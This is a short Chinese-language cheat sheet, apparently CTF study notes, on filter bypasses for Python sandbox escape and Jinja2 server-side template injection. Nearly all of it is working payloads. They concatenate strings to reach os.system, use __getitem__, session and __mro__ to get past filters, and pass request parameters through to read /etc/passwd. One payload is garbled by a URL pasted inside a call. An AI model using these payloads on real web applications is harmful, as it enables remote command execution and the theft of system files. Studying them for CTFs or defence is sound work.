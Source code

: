

{% raw %}

#### Bypass

**0.拼接**

```bash
object.__subclasses__()[59].__init__.func_globals['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ls')
```



**1.过滤[]等括号**

```
使用gititem绕过。如原poc {{"".class.bases[0]}}

绕过后{{"".class.bases.getitem(0)}}
```

或者借助request对象：（这种方法在沙盒种不行，在web下才行，因为需要传参）
request变量可以访问所有已发送的参数，因此我们可以request.args.param用来检索新的paramGET参数的值,将其中的request.args改为request.values则利用post的方式进行传参

```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
```



**2.过滤了subclasses，拼凑法**

```
原poc
{{"".class.bases[0].subclasses()}}

绕过 
{{"".class.bases[0]['subcla'+'sses'](https://xz.aliyun.com/t/3679)}}


```



**3.过滤class**

使用session

poc 

```
{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}
```



多个bases[0]是因为一直在向上找object类。使用mro就会很方便

```
{{session['__cla'+'ss__'].__mro__[12]}}
```

或者

```
request['__cl'+'ass__'].__mro__[12]}}
```

**4.timeit姿势**

可以学习一下 2017 swpu-ctf的一道沙盒python题，

这里不详说了，博大精深，我只意会一二。



```
```